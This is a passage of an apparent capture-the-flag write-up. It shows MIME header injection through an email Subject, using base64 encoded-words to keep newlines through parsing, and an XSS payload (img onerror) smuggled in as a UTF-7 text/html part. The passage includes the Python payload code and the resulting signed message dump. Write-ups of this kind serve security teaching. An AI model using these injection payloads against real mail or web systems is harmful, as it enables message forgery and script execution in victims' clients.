 - SO what if we must  do someway to make the **Subject** after parsed contains something like  : 
```python
subject : "\n----BOUND----\n Content-Type:text/html\n\nPAYLOAD\n---BOUND----\n" ?
```
- The idea is INJECTING at the jinja point
### BUT HOW WE CAN REMAIN THE NEWLINE THROUGH PARSER? 
- After reading and finding how to add special bytes into headers I found that we can use **ENCODING** with special structure.
```python=
def encode_base64(text):
    encoded_bytes = base64.b64encode(text.encode('utf-8'))
    return f'=?utf-8?B?{encoded_bytes.decode()}?='
```
- You see , we keep the '\n' remains which will jumped into the JINJA ?
![image](https://hackmd.io/_uploads/H1TlEAyT1e.png    )
- Result in the Resposne  : 
![image](https://hackmd.io/_uploads/HyDPV0ypke.png)
- Now we can modify the DATA ! But not really ....
## The Boundary is RANDOM ?
- If we want to modify this into valid email , we must someway choose the right boundary ? 
- BUt keep it simple here we just try if our payload can work with fixed boundary or not ? 
- Lets try with : 
```python=
payload  = f'\n--fixed2\nContent-Type : text/html\n\n<img src=x onerror=alert()>\n--fixed2\n'
msg['Subject'] = f"HIHI{encode_base64(payload)}\nFrom :admin@ses"
```
- It seem get escape ? 
![image](https://hackmd.io/_uploads/BkTHlJgaye.png)
- Its no matter because MIME support ENCODING for data too , so just use UTF-7 ENCODING (THERE IS SOME BUG ON base64 encoding and I dont know the reason why ?) :

```python
payload = f"""hi

--==============={admin_boundary}==
Content-Type : text/html; charset=utf-7
MIME-Version : 1.0

+ADw-img+ACA-src+AD0-+ACI-x+ACI-+ACA-onerror+AD0-alert(1)+ADs-+ACA-/+AD4-
--==============={admin_boundary}==
"""
```
Now our dump will be like this : 
```json
==================== ADMIN WILL SIGN THIS ====================

Content-Type: multipart/mixed; boundary="===============adminone=="
MIME-Version: 1.0
From: admin@ses
To: admin@ses
Subject: Re: HIHI hi
--===============adminone==
Content-Type : text/html; charset=utf-7
MIME-Version : 1.0
+ADw-img+ACA-src+AD0-+ACI-x+ACI-+ACA-onerror+AD0-alert(1)+ADs-+ACA-/+AD4-
--===============adminone==

--===============adminone==
Content-Type: text/plain; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit

```